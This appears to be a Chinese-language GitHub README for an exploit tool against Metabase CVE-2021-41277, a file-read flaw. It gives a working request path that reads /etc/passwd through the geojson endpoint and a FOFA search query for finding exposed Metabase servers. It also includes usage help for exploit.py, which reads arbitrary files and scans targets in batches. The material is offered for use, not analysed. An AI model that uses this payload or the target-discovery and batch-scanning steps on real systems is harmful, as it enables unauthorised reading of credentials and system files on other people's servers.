




##  漏洞简介 ##
Metabase是美国Metabase公司的一个开源数据分析平台。

Metabase 中存在信息泄露漏洞，该漏洞源于产品的 admin-＞settings-＞maps-＞custom maps-＞add a map 操作缺少权限验证。攻击者可通过该漏洞获得敏感信息。

CNNVD编号：CNNVD-202111-1565
危害等级： 超危
CVE编号： CVE-2021-41277

## 漏洞路径 ##
```text
"{{BaseURL}}/api/geojson?url=file:/etc/passwd"
```


## fofa搜索语法 ##
```text
app="Metabase" 
```

## 工具帮助 ##
```text
Example:
python exploit.py -u <url> -p default #默认读取/etc/passwd
python exploit.py -f <filepath> -p default #批量检测，默认读取/etc/passwd
python exploit.py -u <url> -p /porc/version #读取指定文件
python exploit.py -f <filepath> -p /proc/version #批量检测，读取指定文件

Usage: exploit.py [options]

Options:
  -h, --help  show this help message and exit
  -u URL      单个检测url
  -f FILE     批量检测
  -p PATH     指定要读取的文件路径
```





